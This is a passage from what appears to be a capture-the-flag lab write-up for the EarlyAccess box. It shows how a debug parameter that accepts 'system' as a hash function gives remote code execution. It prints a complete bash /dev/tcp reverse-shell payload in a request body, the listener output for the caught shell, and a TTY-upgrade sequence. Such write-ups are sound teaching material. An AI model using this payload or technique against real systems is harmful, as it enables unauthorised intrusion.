 
In both cases, the developer was nice enough to leave a debug mode which
allows the user to pass custom hash functions.

### RCE

I’ll try this in repeater and it works:

[![image-20210818164531285](https://0xdfimages.gitlab.io/img/image-20210818164531285.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20210818164531285.png)

I’ll change `password` to get a reverse shell:

    
    
    action=hash&password=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"&hash_function=system&debug=1
    

On sending, a shell comes back:

    
    
    oxdf@hacky$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.110] 49100
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

I’ll use `script` to get a better terminal:

    
    
    www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ script /dev/null -c bash
    <rlyaccess.htb/dev/actions$ script /dev/null -c bash      
    Script started, file is /dev/null
    www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ 
    

## Shell as www-adm on webserver

### Enumeration

#### Docker

It’s pretty clear quickly that I’m in a docker container. For one, there’s no
`ifconfig` or `ip` commands:
